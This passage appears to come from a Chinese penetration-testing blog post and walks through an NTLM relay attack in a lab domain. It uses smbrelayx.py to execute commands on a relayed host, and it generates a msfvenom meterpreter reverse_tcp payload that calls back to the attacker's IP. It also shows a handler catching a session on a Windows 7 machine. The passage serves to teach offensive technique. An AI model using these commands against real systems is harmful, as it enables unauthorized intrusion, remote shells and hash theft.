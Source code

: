 ```cobol
`./smbrelayx.py -h <Client2 IP> -c Command`



AI写代码
```

此时我们让Client1访问这个攻击者精心构造好的SMB服务器：

```cobol
`net use \\192.168.52.131`



AI写代码
```

此时，攻击者的smbrelayx.py脚本上就会发现命令成功执行了：

![](https://i-blog.csdnimg.cn/blog_migrate/4fd1f1d3613298232ca7ed3d0710bc55.jpeg)

在实战中，我们会提前生成了一个 Metasploit 的 payload 并放置在当前目录下，然后用`-e`选项在目标主机上传并运行我们的payload

先生成一个metasploit木马：

```cobol
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.52.131 LPORT=4444 -e x86/shikata_ga_nai -f exe -o ~\shell.exe`



AI写代码
```

并设置好`msfconsole`中`exploit/multi/handler`监听。

然后执行smbrelayx.py脚本：

![](https://i-blog.csdnimg.cn/blog_migrate/2bcb46bfd7d717d7cc16cbd4820248aa.jpeg)

随后在Windows server 2008上执行`net use \\192.168.138.131\c$`来访问攻击者搭建的恶意smb服务：

![](https://i-blog.csdnimg.cn/blog_migrate/90191c5f1b25cb11af5815cf40247ebb.jpeg)

此时攻击者的smbrelayx.py脚本上会有反应：

![](https://i-blog.csdnimg.cn/blog_migrate/f2fef5fe43b930ea03f4c00e6be0b440.jpeg)

并且msfconsole上成功获得了192.168.52.143(windows 7)的会话：

![](https://i-blog.csdnimg.cn/blog_migrate/5b587dc9a6d2c5c5fca6c2f71518aeba.jpeg)

总之，NTLM Relay攻击是一个拿域内主机的方法，在横向移动中利用还是挺不错的，可以直接控制域内主机，包括但不限于在远程服务器上执行命令、上传exe到远程主机上执行、dump 服务器的用户hash等等。

此部分的更多详情可以看我的文章：《内网渗透测试：NTLM Relay攻击分析》
